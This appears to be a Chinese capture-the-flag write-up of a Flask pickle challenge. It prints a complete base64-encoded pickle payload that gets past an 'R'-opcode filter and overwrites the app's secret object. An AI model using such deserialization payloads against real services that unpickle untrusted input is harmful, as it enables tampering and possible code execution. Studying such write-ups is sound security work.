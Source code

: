 ```python
        try:
            pickle_data = request.form.get('data')
            if b'R' in base64.b64decode(pickle_data):
                return 'No... I don\'t like R-things. No Rabits, Rats, Roosters or RCEs.'
            else:
                result = restricted_loads(base64.b64decode(pickle_data))
                if type(result) is not Animal:
                    return 'Are you sure that is an animal???'
            correct = (result == Animal(secret.name, secret.category))
            return render_template('unpickle_result.html', result=result, pickle_data=pickle_data, giveflag=correct)
        except Exception as e:
            print(repr(e))
            return "Something wrong"

    sample_obj = Animal('一给我哩giaogiao', 'Giao')
    pickle_data = base64.b64encode(pickle.dumps(sample_obj)).decode()
    return render_template('unpickle_page.html', sample_obj=sample_obj, pickle_data=pickle_data)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

因为反序列化时做了验证，且opcodes里不能含有R(调用一个callable对象)，所以不太方便直接getshell，因此我们目标是让`restricted_loads(base64.b64decode(pickle_data)) == Animal(secret.name, secret.category)` 为True。

因为secret未知，所以首先想到的是泄露secret，但是此题是行不通的。换个思路，既然不能泄露secret，那我么就改掉secret，这时候妈妈告诉我先知上有[这么一篇文章](https://xz.aliyun.com/t/7012)。

可以参考SUCTF2019_guess_game这题的做法，我们需要让pickle反序列的时候首先加载`__main__.secret`，将`secret.name`和`secret.category`覆盖为frieggs字符串，再以frieggs字符串为参数构造Animal对象。

思路有了，下面就是写opcodes了，我是直接用[pker](https://github.com/eddieivan01/pker)生成的opcodes。（别问为什么不手撸opcodes，因为菜）

将以下的内容保存为文件x

```
secret = GLOBAL('__main__', 'secret')
secret.name = 'frieggs'
secret.category = 'frieggs'
animal = INST('__main__', 'Animal', 'frieggs', 'frieggs')
return animal
```

```shell
$ python3 pker.py < x
b"c__main__\nsecret\np0\n0g0\n(}(S'name'\nS'frieggs'\ndtbg0\n(}(S'category'\nS'frieggs'\ndtb(S'frieggs'\nS'frieggs'\ni__main__\nAnimal\np3\n0g3\n."
```

将opcodes base64encode，这边要稍微注意一下，不能直接拿去编码，直接编码的话他会把\n当成两个单独的字符去编码，实际上他是一个回车符。

```shell
$ ipython
Python 3.7.5 (tags/v3.7.5:5c02a39a0b, Oct 15 2019, 00:11:34) [MSC v.1916 64 bit (AMD64)]
Type 'copyright', 'credits' or 'license' for more information
IPython 7.11.1 -- An enhanced Interactive Python. Type '?' for help.

In [1]: import base64

In [2]: s = "c__main__\nsecret\np0\n0g0\n(}(S'name'\nS'frieggs'\ndtbg0\n(}(S'category'\nS'frieggs'\ndtb(S'frieggs'\nS'frieggs'\ni__main__\nAnimal\np3\n0g3\n."

In [3]: base64.b64encode(s.encode()).decode()
Out[3]: 'Y19fbWFpbl9fCnNlY3JldApwMAowZzAKKH0oUyduYW1lJwpTJ2ZyaWVnZ3MnCmR0YmcwCih9KFMnY2F0ZWdvcnknClMnZnJpZWdncycKZHRiKFMnZnJpZWdncycKUydmcmllZ2dzJwppX19tYWluX18KQW5pbWFsCnAzCjBnMwou'
```
